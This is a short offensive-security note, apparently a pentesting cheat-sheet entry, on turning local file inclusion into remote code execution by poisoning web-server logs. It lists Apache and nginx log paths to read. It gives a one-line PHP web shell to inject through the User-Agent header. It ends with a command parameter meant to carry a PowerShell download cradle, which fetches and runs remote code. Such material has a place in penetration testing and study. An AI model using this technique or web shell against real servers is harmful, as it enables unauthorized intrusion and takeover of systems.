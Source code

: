 # LFI2RCE

## Via Log Files

We can first use LFI to inspect the following paths:

```bash
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

If we view these files and see values we control inside of them (such as the `User-Agent` header), we can gain RCE by injecting a PHP web route into said value.

In the case `User-Agent` is viewable, we can add the following PHP code to our `User-Agent` header when simply accessing the site normally:

```php
<?php system($_GET['cmd']); ?>
```

We can then make a request to the log files using the LFI to see if our injected PHP code is being rendered.

If the PHP code is not viewable, and only a space is seen, we know that PHP is being evaluated by the web server.

We can then obtain RCE by adding the following to our LFI request:

```bash
&cmd=<PS_CRADLE_HERE>
```

